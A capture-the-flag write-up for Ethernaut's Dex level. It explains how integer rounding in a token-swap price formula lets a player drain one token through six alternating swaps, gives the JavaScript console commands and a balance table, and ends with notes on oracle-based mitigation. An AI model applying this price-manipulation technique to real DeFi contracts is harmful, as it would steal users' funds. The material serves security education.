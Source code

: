 [Level 22. Dex](https://ethernaut.openzeppelin.com/level/22)

## In A Nutshell

> In Solidity, division rounds to the floor.

## Concept

1. There's no floating point in Solidity.
2. Division should be cautiously approached, as precision loss can result in serious consequences.
3. It's dangerous to rely on a single data source.

## Level Target

1. Drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

## Breakdown & Analysis

1. The formula in the function `getSwapPrice()` contains a flaw. The division will result in having more balance before each swap.
2. We can swap token 1 and token 2 alternately.

|              | DEX - Token1 | DEX - Token2 | Player - Token1 | Player - Token2 |
| ------------ |--------------|--------------|-----------------|-----------------|
| Before Swap  |      100     |      100     |        10       |        10       |
| After Swap 1 |      110     |      90      |        0        |        20       |
| After Swap 2 |      86      |      110     |        24       |        0        |
| After Swap 3 |      110     |      80      |        0        |        30       |
| After Swap 4 |      69      |      110     |        41       |        0        |
| After Swap 5 |      110     |      45      |        0        |        65       |
| After Swap 6 |      0       |      90      |       110       |        20       |

## Detailed Steps

```js
await contract.approve(contract.address, 300); // approve the contract to spend our token1 and token2.
token1 = await contract.token1(); // get token1's contract address
token2 = await contract.token2(); // get token2's contract address
await contract.swap(token1, token2, 10); // swap 1
await contract.swap(token2, token1, 20); // swap 2
await contract.swap(token1, token2, 24); // swap 3
await contract.swap(token2, token1, 30); // swap 4
await contract.swap(token1, token2, 41); // swap 5
await contract.swap(token2, token1, 45); // swap 6. Note that we can't swap with all our token2 balance since there are only 45 token2 in the pool at this time.
```

## Getting Price From A Single Source

It would be an attack vector if the contract retrieved data such as the price from a single source since hackers can manipulate that source and take advantage of it.

One way to mitigate this problem is using oracles such as Chainlink. It retrieves data from multiple sources and gathers them, then sends the result onto the chain.

